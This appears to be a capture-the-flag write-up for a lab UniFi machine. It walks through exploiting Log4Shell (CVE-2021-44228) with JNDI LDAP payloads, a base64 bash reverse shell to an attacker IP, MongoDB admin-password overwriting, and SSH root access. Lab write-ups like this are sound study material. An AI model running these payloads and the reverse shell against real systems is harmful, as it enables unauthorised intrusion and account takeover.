









# TASK 1

- Start with an nmap to see  which ports are open and the services that are running.

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.96.149 -oG allPorts
```



- Only four ports are of interest

```
nmap -sCV -p22,6789,8080,8443 -v 10.129.96.149 -oN targeted
```



# TASK 2

- On port 8443 there is a web page which we can access by using the URL: `[ip]:8080`. Which will redirecto to the port 8443.



- Using *whatweb* we can see information about the page: 

```
whatweb https://10.129.96.149:8443/manage/account/login?redirect=%2Fmanage
```

Result:
```
https://10.129.96.149:8443/manage/account/login?redirect=%2Fmanage [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.129.96.149], Script, Title[UniFi Network], X-Frame-Options[SAMEORIGIN]
```

# TASK 3

- The version of the service can be seen on the page itself


# TASK 4 

- This version of UniFi is related to the CVE-2021-44228. 

# TASK 5

- The mentioned CVE consists in a series of features in Apache Log4j2, in certain version, which do not protect against attacker controlled LDAP and other JNDI related endpoints.

[CVE-link](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

- **JNDI**: Java tool for finding resources related to a name.

We would be using the JNDI to fetch information from an LDAP 

# TASK 6

Using burpsuite, intercept the response after trying to log into the site.



Looking at the CVE page and comparing it with the parameters, either the parameter "username" or "remember" will be vulnerable.

To prove it, use the JNDI to try and fetch something from one of the parameters to our LDAP port.

For this task we use tcpdump.

# TASK 7

- **First**: Listen to the LDAP port, which is 389:

```
sudo tcpdump -i tun0 port 389
```

- **Second**: Change the parameter "remember" and try to fetch from the LDAP port related to our IP.

```
"${jndi:ldap://[IP]/test}"
```

And the result on the port should be this one



# TASK 8: User Flag

Now that we know the CVE is compatible, let's exploit the vulnerability.

- Get a base64 hash from a revershell:

`echo 'bash -c bash -i >&/dev/tcp/10.10.14.65/4444 0>&1' | 
base64`

- Then use the oneline from github applied to the revershell

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,[BASE64_hash]}|{base64,-d}|{bash,-i}" --hostname [your_ip]
```




- Then replace the "remember" parameter value with the payload:

`${jndi:ldap://10.10.14.65:1389/o=tomcat}`

- Listen to the port chosen, 4444 in my case, and send the petition on burpsuite



Then treat the terminal, and start searching for the user flag.

```
script /dev/null -c bash
# Ctrl + z (suspender proceso)
stty raw -echo; fg
reset xterm
export TERM=xterm
```

The flag is on "michael" user directory.

# TASK 9

Follow uo with privilege escalation.

After the initial tests, there is nothing usefull. Go for the services and ports running on the machine, which cannot be seen with the previous nmap. Anyways, if we take a look to the result of the nmap, we can see that there is database running.

Searching for running services:
```
ps aux | grep "mongo"
```



# TASK 10

The default database for Unifi is "ace". This default DB is created by default from Mongo DB on a port different to the usual default port for mongo.

# TASK 11

Knowing thare is a Mongo DB working, we can enumerate users with the following:

```
$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

# TASK 12

We can see the first user is called "administrator", lets change its password.

- Make a hash of the new password:

`mkpasswd -m sha-512 [passwd]`

- Use the parameters on the enumeration result to update the password:

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce...")},{$set:{"x_shadow":"$6$..."}})'
```

- Once the password is updated, go back to the web page and use the credentials
`administrator:[passwd]`

# TASK 13

Inside the webpage there is a dashboard. The only thing you need from this site is to go to the configuration feature at the end and search for the ssh part.

There's the root password.

# ROOT

Once the password for root has been aquired, connect via ssh to the target machine, where we can find the root flag.



